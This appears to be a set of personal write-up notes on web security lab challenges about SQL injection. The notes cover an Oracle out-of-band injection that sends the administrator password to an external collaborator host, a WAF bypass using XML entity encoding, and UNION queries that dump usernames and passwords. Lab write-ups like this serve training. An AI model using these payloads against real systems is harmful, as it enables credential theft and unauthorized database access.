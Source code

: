 ```
```
GET / HTTP/2
Host: 0ad6003b03dee4e48084082400a000b3.web-security-academy.net
Cookie: TrackingId=NZabXq0UXiDJYBCi'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'5696yphy85om9yu2n4nuw5abg2mtamyb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--; session=lGNWfFh61OTxKMmsh25Ka9MeoYPdMbtl
```
Just the payload:
```
'||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'5696yphy85om9yu2n4nuw5abg2mtamyb.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```
The password is prepended to the Hostname in the request. Use that to log in, solved. 

BTW BurpSuite Pro Scanner will find this OOB which is hard because I haven't found a real easy way to see it without that. 

# SQL Injection with filter bypass via XML Encoding
The goal of this challenge is to get the admin's credentials and log into their account via the SQLi. 
## Observations
- Very much unlike the other SQLi labs. This one appears to be within the XML of the product lookup API requests which is cool. 
- Adding a single quote to the value of the productId threw an "attack detected" error. So, we'll try to subvert that logic to get through. 
- Screwed around on ProductId for a while, while it does prompt the WAF, its not the vulnerable function. It is StoreID. Using Hackverter and hex_entities encoding I coud get the column with ```1 UNION SELECT NULL``` There isn't a second column, throws a zero "error". 
- Need to concatenant the username and password columns since we can only retrieve one, or do them separately. 
```
1 UNION SELECT username || '~' || password FROM users
```

# Union Attacks
Determine the number of columns in the query by using the UNION injection technique. 
Vulnerabilities was in the categories filter for the shop. By adding the payload ```' UNION NULL,NULL,NULL --``` I was able to find that there are three columns. 
```
category=Gifts%27%20UNION%20SELECT%20NULL,NULL,NULL%20--
```

# Using Union injection techniques, find the column containing text (strings). 

First, I find the number of coulmns in Shop's category filter again with the UNION NULL technique - 
```
category=Tech+gifts%27%20UNION%20SELECT%20NULL,NULL,NULL%20--
```

Then, we start replacing each of the nulls iteratively with the letter a, or any character, until we find the column that doesn't error out. Multiple columns might work. The character needs to be encased in single quotes. 

It was the second column in this case - 
```
category=Tech+gifts%27%20UNION%20SELECT%20NULL,%27a%27,NULL%20--
```
Once found, I had to made the database retrieve a specific string 'SIHTLj' to solve the challenge. 

# Retrieve username and password for administrator and log in
```
category=Gifts%27%20UNION%20SELECT%20username,%20password%20FROM%20users--
```
```